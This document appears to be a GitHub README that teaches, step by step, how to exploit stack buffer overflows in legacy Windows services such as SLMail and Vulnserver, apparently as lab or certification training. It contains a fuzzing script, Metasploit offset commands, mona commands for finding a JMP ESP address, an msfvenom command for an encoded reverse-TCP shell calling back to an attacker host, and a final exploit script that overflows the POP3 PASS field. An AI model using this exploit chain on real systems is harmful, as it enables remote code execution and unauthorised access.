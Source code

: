 # Buffer-Overflow-In-5-Simple-Steps

Steps:
1) Fuzzing
2) Finding Offset
3) Finding Bad characters
4) Finding RET Address
5) Generating Shellcode and getting shell



Now in every application you are testing for buffer overflow there may be a parameter or maybe not so you can manually send your every payload using nc or use a python script to fast up everything


Basic python script to exploit basic buffer overflow in applications like slmail, warftp, vulnserver etc.


#!/usr/bin/python
import time, struct, sys
import socket as so
buff = "A" * 5000
ipadd = str("192.168.2.41")
port = int("110")
s = so.socket(so.AF_INET, so.SOCK_STREAM)
try: 
 s.connect((ipadd,port))
 s.recv(1024)
 s.send('TRUN vanshal' +'\r\n')
 print "\n[+] Completed."
except:
 print("Failed")
sys.exit()
NOTE: If you copy this script make sure to correct " medium messup single quote sometimes


1) Fuzzing


Try to send 5000 A's in python script and increase 1000 everytime if service is not stopped.


2) Finding Offset


Generate random characters using
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb


Command: 
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000


here 5000 is where the service is crashing  


Now send the generated pattern from python script


Now in immunity debugger copy the EIP address and send that address in 


/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb


/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q EIP Address


3) Finding Bad Characters


Send all hex values from python script 
hex-values -  https://raw.githubusercontent.com/Vanshal/Buffer-Overflow-In-5-Simple-Steps/master/all-hex-values




Now in immunity debugger right-click on ESP and select Follow in Dump to show the input buffer hex characters in memory
Now look at the badchars list and the immunity and compare where it changes something and remove that from python script and re-run the script to confirm that no badchar is left


4) Finding RET Address


Default: 
JMP ESP = FFE4
After installing mona in immunity 
Commnand:
!mona modules
Find the dll of your service and if there is no ddl search for exe
Probably the one with False in all memory protection is the one you need


Now copy the dll file name
the run
!mona find -s "\xff\xe4" -m slmfc.dll (slmfc.dll is dll found with !mona modules)


Copy the address and convert it to little endian format
eg
0x5f4a358f
\x8f\x35\x4a\x5f


5) Generating Shellcode and getting shell


msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.123 LPORT=443 -e x86/shikata_ga_nai -b "\x00\x0a\x0d" -f c


here using -b switch specify badchars found in step 3


Final Script
#!/usr/bin/python
import time, struct, sys
import socket as so
buf = GENERATED SHELLCODE
buff = "A" * 2606 + "\x8f\x35\x4a\x5f" + '\x90' * 16 + buf
s = so.socket(so.AF_INET, so.SOCK_STREAM)
s.connect(('192.168.0.2',110))
s.recv(1024)
s.send('USER vanshal' +'\r\n')
s.recv(1024)
s.send('PASS ' + buff + '\r\n')
print "\n[+] Completed."
sys.exit()


NOTE: If you think other step is correct and still its not working try to change msfvenom payload type to bind shell OR try to change the value of nops to 30,20,24 etc…
